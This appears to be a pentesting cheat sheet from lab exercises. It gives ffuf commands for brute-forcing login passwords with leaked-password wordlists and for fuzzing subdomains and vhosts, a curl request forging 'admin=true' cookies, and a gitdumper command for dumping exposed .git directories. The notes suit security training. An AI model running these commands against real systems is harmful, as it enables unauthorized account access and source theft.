 > ffuf -u http://MACHINE_IP/sqli-labs/Less-11/ -c -w /usr/share/seclists/Passwords/Leaked-Databases/hak5.txt -X POST -d 'uname=Dummy&passwd=FUZZ&submit=Submit' -fs 1435 -H 'Content-Type: application/x-www-form-urlencoded' 

username/password fuzzing

> ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/login -fc 200

        

####Subdomains and vhosts fuzzing

> ffuf -u http://FUZZ.mydomain.com -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt

####private subdomains

> ffuf -u http://FUZZ.mydomain.com -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -fs 0


####vhost
>  ffuf -u http://mydomain.com -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H 'Host: FUZZ.mydomain.com' -fs 0


We can also fuzz over a proxy

> ffuf -u http://MACHINE_IP/ -c -w /usr/share/seclists/Discovery/Web-Content/common.txt -x http://127.0.0.1:8080


# Cookie poisoning

We can make a curl request to target and set cookie attributes true in a manual header.

> curl -H "Cookie: logged_in=true; admin=true" http://10.10.26.188/cookie-test

If we  decode a base64 cookie and it has some attributes set to false like admin-false,we can copy the same format making admin true then base64 encode it and place it in our browser and refresh to see if it works

> 


# Git pentesting


Whenever we have a git dir or some kind of git service on web server we an enumrate those with a suite of tools called gittools


### This will dump all accessible git resources in a got repo format

> ./gitdumper.sh http://target.com/.git/ git
